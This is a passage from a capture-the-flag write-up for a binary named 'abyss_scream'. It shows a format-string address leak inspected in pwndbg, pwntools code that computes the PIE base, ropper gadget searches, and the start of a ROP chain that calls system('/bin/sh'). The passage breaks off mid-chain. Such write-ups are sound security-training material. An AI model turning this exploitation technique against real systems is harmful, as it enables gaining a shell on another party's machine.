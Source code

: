 ```
...
43 b'0x55e4378d139e\n'
```
We inspect them in gdb one by one and come to the following conclusions:
```console
# 41th address points to the beginning of our name input
pwndbg> x/s 0x561bf357a6c0
0x561bf357a6c0:	"bytebl33d"

# 43th address points to main+128
pwndbg> x 0x55e4378d139e
0x55e4378d139e <main+128>:	0x00fc45c7
```
Based on this information we can calculate the address of `main` and the address of our input buffer. The latter can be used to store our string to `/bin/sh\x00`. We add the following to our exploit script:
```python
def get_leak_address(index):
    send_payload("%{}$p".format(index))
    p.recvuntil(b"Your message:\n")
    data = p.recvuntil(b"\n")
    return int(data, 16)

print("main (symbols) @", context.binary.symbols["main"])
main_addr = get_leak_address(43) - 128
info(f'main_addr @ {hex(main_addr)}')

piebase = main_addr - context.binary.symbols["main"]
info(f'PIE base @ {hex(piebase)}')
```
With this code we can calculate the pie base address:
```console
$ python3 exploit.py 
main (symbols) @ 4894
[*] main_addr @ 0x55870bfb131e
[*] PIE base @ 0x55870bfb0000
```
### Finding useful instructions
We will need a `pop rdi` and `ret` gadget that we can find in gdb or with ropper. The reason fo the `ret` gadget is that when we perform our buffer overflow, we have to realign the stack before continuing our chain. When `ret` is invoked, it increments `$rsp` by 8. Thus, you can simply add a dummy ret to make `$rsp` 16-byte aligned.
```console
$ ropper --file abyss_scream --search "pop rdi"
[INFO] File: abyss_scream
0x00000000000013b5: pop rdi; ret; 

$ ropper --file abyss_scream --search "ret"
[INFO] File: abyss_scream
0x000000000000101a: ret;
```
## ROP Chain
We can now use both gadgets to set the first argument of the system function with the address of `/bin/sh`, and then call the `system` function.
```python
# pop_rdi gadget
pop_rdi = elf.address + 0x13b5
info(f'pop_rdi @ {hex(pop_rdi)}')

# ret gadget
ret = elf.address + 0x101a
info(f'ret @ {hex(ret)}')

```